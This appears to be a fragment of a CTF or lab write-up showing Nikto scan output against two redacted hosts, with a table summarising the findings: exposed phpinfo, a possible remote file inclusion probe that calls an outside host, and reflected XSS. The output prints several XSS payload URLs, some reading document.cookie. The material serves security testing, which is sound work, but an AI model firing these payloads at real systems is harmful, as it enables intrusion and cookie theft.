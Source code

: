 </h6></div>  


```bash
:~/FrankandHerbyTryAgain# nikto -h https://xx.xxx.xx.xx:25000
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          xx.xxx.xx.xx
+ Target Hostname:    xx.xxx.xx.xx
+ Target Port:        25000
---------------------------------------------------------------------------
...
---------------------------------------------------------------------------
+ Server: gunicorn/19.7.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Hostname 'xx.xxx.xx.xx' does not match certificate's CN '127.0.0.1'
+ 6544 items checked: 0 error(s) and 2 item(s) reported on remote host
+ End Time:           2025-10-05 xx:xx:xx (GMT1) (56 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

<br>
<div align="center"><h6>

| **Discovery**                                               | **Details**                                                                                                                                  |
|------------------------------------------------------------:|:---------------------------------------------------------------------------------------------------------------------------------------------|
| `PHP Info Exposure`<br><br>                                 | - /info.php<br> - reveals full PHP configuration, including loaded modules, paths, and environment variables.                                |
| `Remote File Inclusion (RFI)`<br><br>                       | - /info.php?file=http://cirt.net/rfiinc.txt<br>- Suggests the server may process external file input, indicating possible RFI vulnerability. |
| `XSS` <br><br><br>                 	                        | - /phpimageview.php, /myphpnuke/links.php, /modules.php, /members.asp<br>- Reflected XSS via query parameters.                               |

</h6></div>  

```bash
:~/FrankandHerbyTryAgain# nikto -h http://xx.xxx.xx.xx:30679
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          xx.xxx.xx.xx
+ Target Hostname:    xx.xxx.xx.xx
+ Target Port:        30679
+ Start Time:         2025-10-05 xx:xx:xx (GMT1)
---------------------------------------------------------------------------
+ Server: No banner retrieved
+ Retrieved x-powered-by header: PHP/8.1.0-dev
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-27071: /phpimageview.php?pic=javascript:alert(8754): PHP Image View 1.0 is vulnerable to Cross Site Scripting (XSS).  http://www.cert.org/advisories/CA-2000-02.html.
+ OSVDB-3931: /myphpnuke/links.php?op=MostPopular&ratenum=[script]alert(document.cookie);[/script]&ratetype=percent: myphpnuke is vulnerable to Cross Site Scripting (XSS). http://www.cert.org/advisories/CA-2000-02.html.
+ /modules.php?op=modload&name=FAQ&file=index&myfaq=yes&id_cat=1&categories=%3Cimg%20src=javascript:alert(9456);%3E&parent_id=0: Post Nuke 0.7.2.3-Phoenix is vulnerable to Cross Site Scripting (XSS). http://www.cert.org/advisories/CA-2000-02.html.
+ /modules.php?letter=%22%3E%3Cimg%20src=javascript:alert(document.cookie);%3E&op=modload&name=Members_List&file=index: Post Nuke 0.7.2.3-Phoenix is vulnerable to Cross Site Scripting (XSS). http://www.cert.org/advisories/CA-2000-02.html.
+ OSVDB-4598: /members.asp?SF=%22;}alert(223344);function%20x(){v%20=%22: Web Wiz Forums ver. 7.01 and below is vulnerable to Cross Site Scripting (XSS). http://www.cert.org/advisories/CA-2000-02.html.
+ OSVDB-2946: /forum_members.asp?find=%22;}alert(9823);function%20x(){v%20=%22: Web Wiz Forums ver. 7.01 and below is vulnerable to Cross Site Scripting (XSS). http://www.cert.org/advisories/CA-2000-02.html.
```